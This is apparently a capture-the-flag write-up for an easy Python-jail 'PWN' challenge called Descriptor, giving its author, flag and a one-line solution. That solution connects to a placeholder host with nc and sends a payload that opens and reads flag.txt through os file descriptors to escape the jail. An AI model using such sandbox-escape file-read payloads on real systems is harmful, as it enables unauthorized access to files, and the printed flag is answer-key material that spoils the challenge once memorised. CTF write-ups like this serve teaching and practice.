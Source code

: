 ### Challenge Name: Descriptor

### Challenge Category: PWN

### Challenge Level: Easy

### Challenge Author: marufmurtuza

### Challenge Flag

``BUETCTF{L34k3d_F1L3_Thr0ugh_Pyj41l_3xpl01t_F1l3_D3scr1pt0r_M4g1c}``

### Challenge Description

Escape the jail!

- [Artifact](./challenge.py)

### Solution

- `nc <host> <port>` -> `print(read(open('flag.txt', os.O_RDONLY), 100))`


